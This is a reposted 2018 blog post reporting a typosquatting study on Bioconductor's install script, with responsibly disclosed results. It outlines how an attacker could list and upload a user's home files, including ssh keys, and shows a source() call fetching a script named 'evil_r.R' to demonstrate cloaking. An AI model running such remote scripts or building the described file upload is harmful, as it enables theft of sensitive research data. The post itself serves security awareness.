```yaml
---
layout:     post
catalog: true
title:      Hacking Bioconductor
subtitle:      转载自：http://feedproxy.google.com/~r/RBloggers/~3/U56T__udmEs/
date:      2018-11-19
author:      Colin Gillespie
tags:
    - bioconductor
    - packages
    - installation
    - installed
    - installing
---
```






Introduction
Domain squatting or URL hijacking is a straightforward attack that requires little skill. An attacker registers a domain that is similar to the target domain and hopes that a user accidentally visits the site. For example, if the domain is `example.com`, then a typo-squatter would register similar domains such as

- common misspelling: `examples.com`

- misspellings based on omitted letters: `exampl.com`

- misspellings based on typos: `ezample.com`

- a different top-level domain: `example.co.uk`


The cost of registering a single domain is approximately £10 for two years.

With the rise of data science and the widespread use of tools such as R, Python and Matlab, programming has moved from the domain of computing scientist to users who have no formal training. Coupled with this, is the vast amount of additional free packages available. For example, R has over 12,000 packages on its main repository CRAN. These packages cover everything from clinical trials to machine learning. Installation of these packages does not go through a traditional IT approach, where a user contacts their IT officer asking for packages to be installed. Instead, users simply install the required packages on their own machine. Crucially, to install these packages does not require admin rights. This shift from a centrally managed IT infrastructure to a user-centred approach can be difficult to manage.

---

We now regularly perform Shiny and R related security health checks. Contact us if you want further details.

---

## Example: Bioconductor project

To make this article concrete, while simultaneously not overstepping the ethical bounds, we used URL hijacking to target Bioconductor. The Bioconductor project provides tools for the analysis and understanding of high-throughput genomic data. The project uses the R programming language and has over 1,300 associated R packages.

To install Bioconductor, users are instructed to run the R script

```
source("https://bioconductor.org/biocLite.R")

```

This loads the `biocLite()` function that enables installation of other R packages. Two points are worth noting:

- Bioconductor has a large user community. 

- The typical Bioconductor user is analysing cutting-edge biological datasets and therefore likely to be in a University, pharmaceutical company, or government agency. Their data is almost certainly sensitive, which could include patient data or results on upcoming drug trials.


We registered eleven domains: biconductor.org, biocnductor.org, biocoductor.org, biocondctor.org, bioconducor.org, bioconducto.org, bioconductr.org, biocondutor.org, bioconuctor.org, bioonductor.org, boconductor.org

Each domain name is a simple misspelling of **bioconductor**.

When the `source()` function is used to access a website, it sends a *user agent* giving the version of R being used and the operating system. For example, the user agent

> 
R (3.4.2 x86_64-w64-mingw32 x86_64 mingw32)


indicates R version 3.4.2 on a Windows machine. The machine’s location (IP address) is also passed to the server. Whenever a machine accesses a domain, this information is automatically recorded.

For each of the eleven domains, we monitored the server logs for occurrences of the R user-agent. Whenever anyone accessed our rogue domains we always returned a 404 (not found) error message. It is worth noting that while SSL (**https**) is essential for a secure connection, in this scenario it just provides a secure connection to the rogue domain, i.e. it does not offer any additional protection.

### Did it work?

We monitored the eleven domains for five months, starting in January 2018. As expected some domains are clearly more popular than others. The top three domains, bioconducor.org, biconductor.org and biocondutor.org accounted for most of the traffic.

![](https://i0.wp.com/www.jumpingrivers.com/wp-content/uploads/2018/11/blog-security.png?w=450&ssl=1)


A summary of the results are

- Thirty-three countries

- 168 unique Universities, with most of the top 10 Universities in the world represented

- Many Research Institutes

- A number of Pharma companies and charities


### Is it really a big deal?

Once the user has executed our R script, we are free to run any R commands we wish. If the attacker has targeted users installing Bioconductor then they would probably look for commercially sensitive material.

The first step for an attacker to retrieve information from a user’s machine would be to install the **httr** R package using the command

```
install.packages("httr")

```

This package provides functionality for uploading files to external web-servers. A more nefarious technique would be to detect if Dropbox or other cloud storage system is on their system and leverage that via an associated R package.

The next step would be to determine files on the system. This is particularly easy since R is cross-platform. Using base R, we can list all files under a users home area with

```
list.files("~/", recursive = TRUE, full.names = TRUE)

```

An attacker could either upload all files or cherry-pick particular directories, such as those that contain security credentials, e.g. ssh keys. With approximately three lines of standard R code the attacker we could upload all files from a user’s home area to an external server.

An attacker could nuance their attack with little thought. For example, a simple message statement at the start of an attack, such as

```
The Bioconductor server is experiencing heavy use today; 
hence the installation process will take slightly longer than usual, 
please be patient. Sorry for your inconvenience.

```

would give the attacker more time. A sophisticated variation would be to delay file uploads until the user is away from the computer, while simultaneously installing Bioconductor and allowing the user to proceed as normal.

Detecting an attack would also be difficult as an attacker can modify their response based on the user-agent. For example, if in R we run the command

```
source("http://www.mas.ncl.ac.uk/~ncsg3/R/evil_r.R")

```

The server detects an R user agent and returns R code. However visiting the site via a browser, such as Internet Explorer, will result in a “page not found”. An attacker could also cache IP addresses of visitors. This would enable them to launch an attack the first time a user visits the page, but all subsequent visits result in a redirect to the correct Bioconductor site.

## Other Attack Avenues

Bioconductor is not the only attack vector that could be exploited. Many R users install the latest versions of packages from GitHub (or other online repositories). The most common method of installing a GitHub package is to use the function `install_github()`. The first argument of this function is a combination of the GitHub username and the repository name. For example, to install the latest version of **ggplot2** package, the user/organisation is **tidyverse** and the repository name is **ggplot2**, so the argument to the `install_github()` function would be **tidyverse/ggplot2**, i.e. thus

```
install_github("tidyverse/ggplot2")

```

As with the mechanism employed by Bioconductor, there is nothing wrong with this particular method for package installation. However like Bioconductor, as there are many users installing the package in this manner, it would be relatively simple to register a similar username; we have actually registered the username **tidyversee** but didn’t create a **ggplot2** repository.

While the **tidyverse** repository is one of the most popular GitHub repositories, it would be relatively easy to script an attack on **all** packages hosted in GitHub. Creating similar user-names and cloning the targeted repositories, would create thousands of possible attack vectors.

This security vulnerability is implicitly present whenever a user installs packages or libraries. For example in Python, users can install packages via the popular _pip__ package. However, a malicious attacker can upload a python package to this repository with a similar name to a current package and thereby gain control of a users system via URL hijacking.

## Reporting vulnerabilities

We actually discovered this issue mid-way through 2017. After contacting the maintainers of Bioconductor, we waited until the mechanism for installing Bioconductor packages was changed to

```
## A CRAN package
BiocManager::install()

```

This happened with the release of R 3.5.0. We then waited a few more months just to be sure

## Shiny and R Health Checks

One of our main tasks at [Jumping Rivers](https://www.jumpingrivers.com/consultancy/] is to help set up R infrastructure and perform R related security health checks. If you need advice or help, please contact us for further details.

---

![](https://i1.wp.com/www.jumpingrivers.com/wp-content/uploads/2018/11/logo-advert.png?w=456&ssl=1)
![](https://i1.wp.com/www.jumpingrivers.com/wp-content/uploads/2018/11/logo-advert.png?w=456&ssl=1)


The post Hacking Bioconductor appeared first on Jumping Rivers.


*Related*








---
